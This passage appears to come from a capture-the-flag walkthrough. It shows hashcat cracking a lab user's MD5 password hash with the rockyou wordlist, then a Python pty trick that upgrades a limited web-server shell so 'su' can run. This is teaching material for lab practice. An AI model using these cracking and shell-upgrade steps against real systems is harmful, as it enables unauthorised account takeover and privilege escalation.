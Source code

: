```console
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Using pure kernels enables cracking longer passwords but for the price of drastically reduced performance.
If you want to switch to optimized backend kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 65 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: MD5
Hash.Target......: c3fcd3d76192e4007dfb496cca67e13b
Time.Started.....: Thu Sep 17 18:15:43 2020 (0 secs)
Time.Estimated...: Thu Sep 17 18:15:43 2020 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1358.9 kH/s (0.85ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 40960/14344385 (0.29%)
Rejected.........: 0/40960 (0.00%)
Restore.Point....: 36864/14344385 (0.26%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: holabebe -> loserface1

Started: Thu Sep 17 18:15:41 2020
Stopped: Thu Sep 17 18:15:45 2020
```
Which reveals `robot`'s password to be: `abcdefghijklmnopqrstuvwxyz`

### Breaking out of binary to `su` to robot

We can't run the `su` command from this current shell. So we need to 'break-out' we can do this with:
```console
$ su
su: must be run from a terminal

$ echo "import pty; pty.spawn('/bin/bash')" > /tmp/asdf.py
$ python /tmp/asdf.py

daemon@linux:/opt/bitnami/apps/wordpress/htdocs$ 

daemon@linux:/opt/bitnami/apps/wordpress/htdocs$ su robot
su robot
```